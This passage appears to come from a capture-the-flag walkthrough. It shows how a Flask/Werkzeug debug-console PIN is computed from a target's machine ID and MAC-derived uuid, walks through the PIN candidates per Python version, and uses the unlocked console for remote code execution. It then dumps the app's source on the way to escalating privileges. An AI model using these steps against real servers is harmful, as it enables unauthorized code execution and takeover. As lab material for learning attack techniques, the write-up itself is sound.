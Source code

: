 Although we do not know the exact version of python the target is  running, we can try all of these PINs. Eventually, we succeed with  version 3.6.

However, depending on certain events occurring during the boot cycle of this particular machine, **/proc/self/cgroup** is sometimes not included in the computation of the debug PIN. In fact, this anomaly occurred during this particular boot. Because of this, we  are unsuccessful with a PIN value of `173-509-958`.

In this case, we’ll re-run the Python script removing `blog.service` (which was appended to the machine ID):

```
kali@kali:~$ python3 get_flask_pin.py --machineid '00566233196142e9961b4ea12a2bdb29' --uuid 345049332968
[!] App.py base path not provided, trying for most versions of python
2.7: 120-566-406
3.0: 438-454-566
3.1: 207-828-493
3.2: 414-794-431
3.3: 359-376-798
3.4: 150-123-880
3.5: 207-574-021
3.6: 299-818-227
3.7: 327-733-603
3.8: 224-299-250
kali@kali:~$ 
```

In this case, PIN `299-818-227` was correct and allows us to proceed. After unlocking the debugging console, we obtain RCE:

```
>>> import os
>>> os.popen("id").read()
'uid=33(www-data) gid=33(www-data) groups=33(www-data)\n'
>>> 
```

## Escalation

### Flask Application Enumeration

Although we could obtain a reverse shell at this point, we can  escalate in another way. Knowing this is a Flask application, let’s  review the main **app.py** file:

```
>>> print(os.popen("cat app.py").read())
#!/usr/bin/python3
import datetime
import functools
import os
import re
import urllib
from base64 import b64decode
import getpass

import flask
from flask import (Flask, flash, Markup, redirect, render_template, request,
                   Response, session, url_for)
from markdown import markdown
from markdown.extensions.codehilite import CodeHiliteExtension
from markdown.extensions.extra import ExtraExtension
from micawber import bootstrap_basic, parse_html
from micawber.cache import Cache as OEmbedCache
from peewee import *
from playhouse.flask_utils import FlaskDB, get_object_or_404, object_list
from playhouse.sqlite_ext import *
```